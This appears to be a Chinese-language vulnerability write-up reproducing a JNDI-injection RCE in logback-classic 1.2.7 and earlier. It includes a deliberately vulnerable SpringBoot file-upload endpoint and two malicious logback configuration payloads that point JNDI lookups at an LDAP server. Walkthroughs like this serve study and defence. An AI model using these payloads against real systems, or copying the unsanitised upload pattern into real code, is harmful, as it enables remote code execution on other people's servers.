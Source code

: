 ##  影响版本

logback-classic <=1.2.7

##  测试环境

 SpringBoot 2.6.1 

 JDK 8u111(请注意 JNDI 可利用的版本)

## 复现项目地址

https://github.com/cn-panda/logbackRceDemo

项目是用 SpringBoot 写的一个简单的漏洞 Demo 环境，主要是`UploadController`中的`upload`函数：

```java
public String upload(@RequestParam("file") MultipartFile file) {  
    if (file.isEmpty()) {  
        return "Upload failed, please select a file！！";  
    }  
  
    String fileName = file.getOriginalFilename();  
    String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
    System.out.println(filePath);  
    File dest = new File(filePath,fileName);  
    try {  
        file.transferTo(dest);  
        LOGGER.info("Upload succeeded!!");  
        return "Upload succeeded!!";  
    } catch (IOException e) {  
        LOGGER.error(e.toString(), e);  
    }  
    return "Upload failed!!";  
}
```

该函数主要功能是用来上传文件。

项目中 logback 的配置文件如下：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

关键点在于`scan`属性，该属性是 logback 用于定时扫描配置文件的变化，若检测到配置文件发生改变，则实时更新加载配置文件

在这里，我故意的写了一个存在任意文件上传的漏洞环境，然后借助 loghack 配置文件中的`scan`属性，配合logback漏洞，实现 RCE

# 漏洞分析

## JNDIConnectionSource
在 logback 中同样类似于log4j1.x 中  JDBCAppender 的 Appender —— **DBAppender**，DBAppender 中有一个名为`ConnectionSource`的接口

该接口提供了一种可插拔式的方式为需要使用 `java.sql.Connection` 的 logback 类获取 JDBC 连接

目前有三种实现类，分别为： `DriverManagerConnectionSource` 、`DataSourceConnectionSource`与 `JNDIConnectionSource`。

这三种实现类每一种都可以用来达到 RCE

但和另外两种实现类不同的是，`JNDIConnectionSource` 实现 RCE 的方式更方便，因为和它可以不借助其他依赖组件的 gadget，仅依靠应用提供的本身机制（JNDI）即可实现 RCE， 但 `DriverManagerConnectionSource` 、`DataSourceConnectionSource`必须依赖 JDBC 反序列漏洞才能够实现 RCE，限制比较大，故这里不做演示。

**JNDIConnectionSource** 是 logback 自带的方法，从名字就可以看出来，它通过 JNDI 获取 javax.sql.DataSource，然后再获取 java.sql.Connection 实例

实际上可以通过观察`JNDIConnectionSource.java`中`getConnection`方法的代码可以发现：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

如果dataSource 为空，那么就令`dataSource = lookupDataSource();`

然后在**lookupDataSource()** 中触发 `lookup`:

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

#### 漏洞复现

首先下载复现源码，然后运行`RceDemoApplication`项目的main 函数：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

然后打开浏览器，在地址栏中输入：`http://localhost:8080` 即可访问项目首页

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

然后在本地创建一个`logback-spring.xml`的配置文件，文件内容如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
    　　　　　 <encoder>  
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
    　　　　　 </encoder>  
    　　　</appender>  
    <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
        <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
            <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
        </connectionSource>  
    </appender>  
  
    　　　<root level="DEBUG">  
    　　　　　　<appender-ref ref="STDOUT" />  
    　　　</root>  
</configuration>
```

然后再访问`http://localhost:8080/upload.html`，选择该文件后点击上传按钮，抓包可以看到文件上传成功：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

等待十秒钟后，即可成功执行 RCE

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

## insertFromJNDI

除了`JNDIConnectionSource`外，实际上还有一种配置可以实现 JNDI 注入—— **insertFromJNDI**

`<insertFromJNDI>` 是 logback 的配置标签，用于设置属性的范围，其支持通过 JNDI 的方式来获取属性值，同样的，如果修改`<insertFromJNDI>` 标签的内容，同样可以实现 JNDI 注入

当使用`<insertFromJNDI>` 标签的时候，意味着会调用`InsertFromJNDIAction.java`文件中的`begin`方法，在该方法中会使用`JNDIUtil.lookup` 方法，从而触发漏洞：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

### 漏洞复现

和 #JNDIConnectionSource 中复现步骤大致相同，只是上传文件中利用的payload 需要改变，如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
    　　　　　 <encoder>
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
    　　　　　 </encoder>
    　　　</appender>
    <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  

　　　<root level="DEBUG">
    　　　　　　<appender-ref ref="STDOUT" />
    　　　</root>
</configuration>
```

上传该配置文件：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

同样的，等待 10 秒后，即可触发 RCE：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

实际上，除了这两个外，`JMXConfiguratorAction`中的`begin`同样可以进行恶意利用

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

# 总结

总的来说，这个漏洞的触发方式还是比较困难的，除非能够满足以下条件：

1、能够修改或者覆盖 logback 的配置文件
2、能够使得修改的配置文件生效
2、能够使得修改的配置文件生效
